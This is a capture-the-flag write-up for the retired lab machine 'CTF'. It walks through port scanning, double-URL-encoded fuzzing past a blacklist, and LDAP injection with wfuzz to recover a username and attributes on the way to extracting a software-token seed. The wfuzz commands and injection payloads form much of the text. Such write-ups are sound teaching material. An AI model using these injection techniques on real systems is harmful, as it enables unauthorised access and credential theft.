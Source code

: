 # CTF

This is the write-up for the box CTF that got retired at the 20th July 2019.
My IP address was 10.10.14.91 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.122    ctf.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/ctf.nmap 10.10.10.122
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 fd:ad:f7:cb:dc:42:1e:43:7d:b3:d5:8b:ce:63:b9:0e (RSA)
|   256 3d:ef:34:5c:e5:17:5e:06:d7:a4:c8:86:ca:e2:df:fb (ECDSA)
|_  256 4c:46:e2:16:8a:14:f6:f0:aa:39:6c:97:46:db:b4:40 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16
|_http-title: CTF
```

## Checking HTTP (Port 80)

On the webpage we get a text that says the following:
> As part of our SDLC, we need to validate a proposed authentication technology, based on software token, with a penetration test.
Please login to do your test.
This server is pretected against some kind of threats, for instance, bruteforcing.
[...]
A list of banned IP is available here...

If we click on _here_ we get the output of a _top_ command and a list of banned IPs. Both information are not interesting, so we get to the _Login_ part of the page.

We are greated with an input for an **Username** and an **OTP**. If we input a non valid user we get the message _User test not found_.
When testing for special characters with _Burpsuite_ by URL encoding strings multiple times, we get only one time URL encoded strings. This means there is some kind of blacklist in the background.

If we check the source-code of the login page we get a hint that says:
> at the moment we have choosen an already existing attribute in order to store the token string (81 digits)

After some research on the internet for **Software Token Linux** we get to the conclusion that the software [stoken](https://www.systutorials.com/docs/linux/man/1-stoken/) was used.
On that page you can find that the numeric string is **81 digits**, just like the hint told us.
And the box name **CTF** stands for _compressed token format_.
Now we know that we will use this software for this token but first we need to enumerate usernames.

### Enumerating usernames

Bruteforcing / Extensive Fuzzing won't help us as this will get us on a blacklist, so we need another way.
But we need to fuzz a little bit anyway.
Fuzzing for some usernames doesn't get us any results and fuzzing for special characters neither because of the blacklist we found about earlier.

As double URL encoded characters get us different responses, we will fuzz for that with the wordlist from _Seclists_ **doble-uri-hex.txt**.
In this wordlist there are all 256 ASCII characters but double URL encoded.

Short explanation of double URL encoding
>This is the double URL encoded character for **A**:
%2541

>An application decodes %25 first (thats **%**) and then we are left with **%41**.
This will be decoded after and then we are left with **A**

The command with _wfuzz_ looks like this:
```markdown
wfuzz --hw 233 -d 'inputUsername=FUZZ&inputOTP=1234' -w doble-uri-hex.txt hxxp://10.10.10.122/login.php
```

The results are:
- %2500 = Null Byte
- %2528 = (
- %2529 = )
- %252a = *
- %255c = \

Looking at these characters it becomes clear that these are used in **LDAP queries**!

#### Creating an LDAP query

We will manually create an LDAP query and test it with Burpsuite as a proxy.
First we need to need to check when the query is successful. After a little bit of trying, we find out that 3 closed parentheses after the username gives us a different result:

```markdown
inputUsername=Testerman%2529%2529%2529%2500&inputOTP=1234

URL-encoded:
inputUsername=Testman)))&inputOTP=1234
```

We can imagine the query looks like this now:
```markdown
(&
  (&
    (password=testpass)
    (uid=Testman)))
  )
  (|
    (compare something)
  )
)
```

Now we kind of know the structure how it could look like, so lets see what happens on a wildcard character:

```markdown
inputUsername=%252a&inputOTP=1234

URL-encoded:
inputUsername=*&inputOTP=1234
```

By requesting this we get **Cannot Login** on the webpage instead of **User test not found**. This means we can find a valid username letter by letter by Fuzzing.

In _Seclists_ the wordlist _char.txt_ has every character of the alphabet and that is what we need for the next Fuzz.
The WFUZZ command looks like this:
```markdown
wfuzz --hw 233 -d 'inputUsername=FUZZ%252a&inputOTP=1234' -w char.txt hxxp://10.10.10.122/login.php
```

This goes through the wordlist and gives us the result which letter is valid in front of a wildcard. In this case it just gave the letter **l**.
Now lets fuzz the next letter:
```markdown
wfuzz --hw 233 -d 'inputUsername=lFUZZ%252a&inputOTP=1234' -w char.txt hxxp://10.10.10.122/login.php
> Output: d

wfuzz --hw 233 -d 'inputUsername=ldFUZZ%252a&inputOTP=1234' -w char.txt hxxp://10.10.10.122/login.php
> Output: a

wfuzz --hw 233 -d 'inputUsername=ldaFUZZ%252a&inputOTP=1234' -w char.txt hxxp://10.10.10.122/login.php
> Output: p

wfuzz --hw 233 -d 'inputUsername=ldapFUZZ%252a&inputOTP=1234' -w char.txt hxxp://10.10.10.122/login.php
> Output: u
...
```

If we do this until Wfuzz doesn't give us any output we get the username **ldapuser**!

#### Getting the attributes of the user

Now we have the user we need the attributes to enumerate futher. Our LDAP query need to look like this:
```markdown
(&
  (&
    (password=testpass)
    (uid=ldapuser)))
    ($attribute=*
  )
  (|
    (compare something)
  )
)
```

There are some default LDAP attributes we know of that we are going to check. There is a nice list on the repository [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/Intruder/LDAP_attributes.txt) that we are going to use.

We want to fuzz for the attributes like this:
```markdown
ldapuser%2529%2528FUZZ%253d%252a

URL-encoded:
ldapuser)(FUZZ=*
```

The Wfuzz command looks like this:
```markdown
wfuzz --hw 233 -d 'inputUsername=ldapuser%2529%2528FUZZ%253d%252a&inputOTP=1234' -w LDAP_attributes.txt hxxp://10.10.10.122/login.php
```

This gives us all the valid attributes:
> commonName, cn, mail, name, pager, objectClass, uid, userPassword, sn, surname

As we are looking for the software token right now, we should enumerate the value of that attribute with Wfuzz like we enumerated the username. The only attribute that makes sense for a 81 digit number is **pager**.

Now our LDAP query looks like this:
```markdown
(&
  (&
    (password=testpass)
    (uid=ldapuser)))
    (pager=<81 digits>
  )
  (|
    (compare something)
  )
)
```

We will use the same technique as how we enumerated the username, but as this is 81 digits, we will automate that process by writing a script. The script is in this repository and is called _fuzztoken.py_.
